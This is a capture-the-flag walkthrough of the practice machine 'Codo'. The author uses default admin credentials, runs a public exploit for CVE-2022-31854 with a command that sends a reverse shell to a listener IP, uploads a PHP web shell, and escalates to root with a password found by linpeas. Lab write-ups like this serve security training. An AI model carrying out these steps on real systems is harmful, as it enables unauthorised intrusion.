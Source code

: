# **Codo** | PG Practice

***

Running our nmap scan we have

```
# Nmap 7.94SVN scan initiated Mon Feb 26 18:58:16 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt 192.168.153.23
Nmap scan report for 192.168.153.23
Host is up (0.17s latency).
Not shown: 65533 filtered tcp ports (no-response)
Bug in http-generator: no string output.
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
|_  256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: All topics | CODOLOGIC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 26 19:00:58 2024 -- 1 IP address (1 host up) scanned in 162.31 seconds
```

Navigating to port 80/HTTP we have this **Codoforum** web page



![](https://i.imgur.com/TpzkWA4.png)


However there is an information disclosure of the username on this page know as **admin**


```markdown
Hi,

This is an example post in your codoforum installation.  
You can create/modify/delete all forum categories from the forum backend.

Please edit the forum title and description from the backend.

The only user available to login in the front-end is **admin** with the password that you set during the installation..........
```


trying out default credentials on the logon page, we where able to login as user **admin** with password **admin** also



![](https://i.imgur.com/Lyj7ah1.png)

Navigating to the profile edit section of this page, we are able to upload an image


![](https://i.imgur.com/4rBfd90.png)


However uploading a `shell.php` file we get this error message



![](https://i.imgur.com/phq7Qpp.png)


After several uploads found an exploit for this on `CVE-2022-31854`, which you can download from [here](https://github.com/Vikaran101/CVE-2022-31854)



![](https://i.imgur.com/oC4GpU5.png)


Running the exploit i get a **Connection refused** error, :p, as we can see the connection is made to `/admin/?page=login` endpoint, for some reasons, things are not working

```bash
python3 exploit.py --target-url 'http://192.168.153.23' --username admin --password admin --listener-ip 192.168.45.203 --port 4444 
```


![](https://i.imgur.com/bMEHppK.png)


Decided to run a directory bruteforce attack and found the `/admin` endpoint



![](https://i.imgur.com/mQFsrat.png)


Navigating there same username and password we used earlier worked!! `admin:admin`

![](https://i.imgur.com/5kDHp35.png)


According to the exploit, navigating to this directory, i saw another upload function `/admin/index.php?page=config`


![](https://i.imgur.com/N5orXIP.png)



Uploaded my `shell.php` file and according to the exploit navigated to `/sites/default/assets/img/attachments/shell.php` and truly i got my web shell, haha 🙃



![](https://i.imgur.com/bKCHWht.png)


Then got an actual shell on my listener as user `www-data`

![](https://i.imgur.com/GSer3yN.png)


Running `linpeas.sh` i found a password called `FatPanda123` 



![](https://i.imgur.com/KGSUAha.png)


Fortunately, this password didn't work for the user `offsec` but worked for the the user `root` 😎


![](https://i.imgur.com/CSY22KL.png)

GG
